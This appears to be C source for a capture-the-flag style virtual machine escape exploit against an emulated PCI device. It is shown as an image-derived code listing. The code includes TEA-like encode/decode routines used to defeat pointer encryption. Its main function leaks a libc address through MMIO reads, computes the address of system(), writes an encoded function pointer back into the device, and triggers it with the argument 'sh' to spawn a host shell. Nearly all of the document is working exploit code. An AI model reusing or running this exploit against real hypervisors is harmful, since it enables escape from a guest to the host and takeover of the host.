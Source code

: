 ```c


uint64_t encode(uint32_t high, uint32_t low) {

    uint32_t addr = 0xC6EF3720;

    for (int i = 0; i < 32; ++i) {
        high = high - ((low + addr) ^ (low >> 5) ^ (16 * low));
        low = low - (((high + addr) ^ (high >> 5) ^ (16 * high)));
        addr += 0x61C88647;
    }

    return (uint64_t)high * 0x100000000 + low;
}


uint64_t decode(uint32_t high, uint32_t low) {

    uint32_t addr = 0x0;

    for (int i = 0; i < 32; ++i) {
        addr -= 0x61C88647;
        low += (((high + addr) ^ (high >> 5) ^ (16 * high)));
        high += ((low + addr) ^ (low >> 5) ^ (16 * low));
    }
    return (uint64_t)high * 0x100000000 + low;
}


int main(int argc, char* argv[]) 
{
    printf("[+] Setup\n");
    setup_pmio();
    setup_mmio();


    printf("[+] IO\n");
    pmio_write(0x8, 0x100);
    
    mmio_write(8*1,0);
    mmio_write(0,0);
    mmio_write(8*2,0);
    mmio_write(0,0);
    
    uint64_t libcbase=0;
    libcbase = mmio_read(8*3);
    libcbase = decode(libcbase>>32, libcbase&0xffffffff) - 0x4aeb0;
    printf("[+] libcbase: 0x%lx\n",libcbase);
    
    
    uint64_t system = libcbase+0x055410;
    printf("[+] system: 0x%lx\n",system);
    uint64_t enc_system = encode(system>>32, system&0xffffffff);
    
    mmio_write(8*3,enc_system&0xffffffff);
    mmio_write(8*3,enc_system>>32);
	pmio_write(0x1c,0x6873);
	
    return 0;
} 
```
